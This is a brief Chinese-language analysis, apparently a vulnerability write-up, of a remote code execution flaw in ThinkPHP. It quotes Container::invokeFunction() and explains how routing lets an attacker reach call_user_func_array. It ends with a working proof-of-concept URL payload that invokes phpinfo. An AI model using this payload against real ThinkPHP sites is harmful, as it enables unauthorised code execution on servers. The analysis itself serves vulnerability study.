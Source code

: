 在/thinkphp/library/think/Container.php的invokeFunction()

```php
    /**
     * 执行函数或者闭包方法 支持参数调用
     * @access public
     * @param  mixed  $function 函数或者闭包
     * @param  array  $vars     参数
     * @return mixed
     */
    public function invokeFunction($function, $vars = [])
    {
        try {
            $reflect = new ReflectionFunction($function);

            $args = $this->bindParams($reflect, $vars);

            return call_user_func_array($function, $args);
        } catch (ReflectionException $e) {
            throw new Exception('function not exists: ' . $function . '()');
        }
    }
```

如果invokeFunction()的参数可控就会导致通过call_user_func_array来执行代码

在thinkphp的路由信息格式是`module_name/controller_name/action_function_name/parme1/value1`

在解析过程中通过string分割的方式提取module controller action 

根据这些信息拼接命名空间加载并实例controlle类 最够反射执行action

试着构建poc:

index.php?s=index/think\Container/invokefunction/function/call_user_func_array/vars[0]/phpinfo/vars[1][]/1
